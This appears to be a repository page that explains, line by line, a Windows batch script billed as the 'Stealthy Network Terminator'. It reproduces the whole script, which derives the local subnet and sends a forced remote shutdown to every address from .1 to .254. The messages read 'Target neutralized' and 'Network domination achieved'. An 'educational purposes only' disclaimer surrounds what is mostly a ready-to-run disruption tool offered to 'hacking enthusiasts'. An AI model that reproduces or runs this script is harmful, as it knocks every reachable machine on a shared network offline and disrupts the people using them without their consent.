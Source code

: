 

sline-by-line explanation:

```plaintext
1. @echo off
```
- Disables echoing of commands, preventing them from being displayed in the console as they are executed.

```plaintext
2. setlocal enabledelayedexpansion
```
- Enables delayed expansion of variables, allowing the use of `!` syntax to access variable values within loops.

```plaintext
3. REM Stealthy Network Terminator - Developed by FLUFFY
```
- A comment providing information about the script, including its name and developer.

```plaintext
4. REM This script is for educational purposes only. Misuse for malicious intent is illegal.
```
- A comment emphasizing the script's intended use for educational purposes only and warning against misuse.

```plaintext
5. REM FLUFFY presents the Stealthy Network Terminator (SNT), a potent tool for hacking enthusiasts.
6. REM It silently infiltrates your local network, wreaking havoc with a single click.
```
- Comments further describing the purpose of the script, presenting it as a tool for hacking enthusiasts that can silently infiltrate a local network to cause havoc.

```plaintext
7. REM WARNING: Use this tool responsibly and only on networks you own or have explicit permission to test.
```
- A warning emphasizing responsible use of the script and advising against using it on networks without proper authorization.

```plaintext
8. REM Get ready to unleash chaos! Initiating SNT...
```
- A comment indicating that the script is about to begin executing its main functionality.

```plaintext
9. REM Get local IP address
10. for /f "tokens=2 delims=:" %%i in ('ipconfig ^| findstr IPv4') do (
11.     set "local_ip=%%i"
12. )
```
- Retrieves the local IP address of the machine by parsing the output of the `ipconfig` command and storing it in the variable `local_ip`.

```plaintext
13. if "%local_ip%"=="" (
14.     echo Failed to retrieve local IP address. Aborting operation.
15.     exit /b 1
16. )
```
- Checks if the local IP address was successfully retrieved. If not, it displays an error message and exits the script with an error code.

```plaintext
17. REM Extract network range
18. for /f "tokens=1,2,3 delims=." %%a in ("!local_ip!") do (
19.     set "network_range=%%a.%%b.%%c."
20. )
```
- Extracts the network range from the local IP address by splitting it at each period (.) and storing the first three parts in the variable `network_range`.

```plaintext
21. if "%network_range%"=="" (
22.     echo Failed to extract network range. Aborting operation.
23.     exit /b 1
24. )
```
- Checks if the network range was successfully extracted. If not, it displays an error message and exits the script with an error code.

```plaintext
25. REM Initiating shutdown sequence for all devices in the network range
26. echo Stealth mode activated... Engaging the SNT...
```
- Indicates that the script is about to begin shutting down devices on the network and provides some dramatic flair.

```plaintext
27. set "error_count=0"
```
- Initializes a variable `error_count` to keep track of any errors encountered during the shutdown process.

```plaintext
28. for /L %%i in (1,1,254) do (
29.     set "ip=!network_range!%%i"
30.     shutdown /s /f /t 0 /m \\!ip! >nul 2>&1
31.     if errorlevel 1 (
32.         echo Failed to send shutdown command to !ip!... Evading detection.
33.         set /a "error_count+=1"
34.     ) else (
35.         echo Shutdown command sent to !ip!... Target neutralized.
36.     )
37. )
```
- Loops through all IP addresses in the network range (from 1 to 254), constructs each IP address, and sends a shutdown command to it using the `shutdown` command. It also checks if the command was successful and updates the `error_count` variable accordingly.

```plaintext
38. echo.
```
- Outputs a blank line for better readability in the console.

```plaintext
39. if %error_count% gtr 0 (
40.     echo %error_count% devices failed to shut down... Potential resistance detected.
41. ) else (
42.     echo All devices in the network range have received shutdown command... Network domination achieved!
43. )
```
- Checks if any devices failed to shut down. If so, it displays the number of failures. Otherwise, it indicates that all devices have received the shutdown command successfully.

```plaintext
44. echo Terminating SNT... Exit stealth mode and return to the shadows.
45. pause
```
- Provides a closing message and pauses the script execution to allow the user to view the output before closing the console window.
